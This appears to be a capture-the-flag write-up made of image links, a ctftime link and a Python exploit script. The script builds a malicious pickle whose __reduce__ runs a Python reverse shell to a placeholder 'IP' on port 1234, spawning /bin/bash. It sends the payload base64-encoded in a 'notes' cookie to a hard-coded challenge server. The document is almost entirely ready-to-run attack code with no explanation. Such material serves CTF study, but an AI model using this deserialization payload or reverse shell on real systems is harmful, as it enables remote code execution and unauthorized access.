 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bcae232a-ffbc-42cc-87f0-3c688e4091a1)

https://ctftime.org/writeup/36628

```python
#!/usr/bin/env python3
import pickle, os, base64
import requests

class P(object):
    def __reduce__(self):
        return (os.system,('''python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

def main():
    pickledPayload = base64.b64encode(pickle.dumps(P())).decode()
    print(f'[*] Payload: {pickledPayload}')

    URL = 'http://62.173.140.174:16040/add_note'
    cookie = {
        'notes': pickledPayload
    }

    print('[*] Request result:')
    orderRequestResult = requests.get(URL, cookies=cookie)
    print(orderRequestResult.text)

if __name__ == '__main__':
    main()
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/49603b17-d96b-4906-b6ea-0b668adf8f0c)

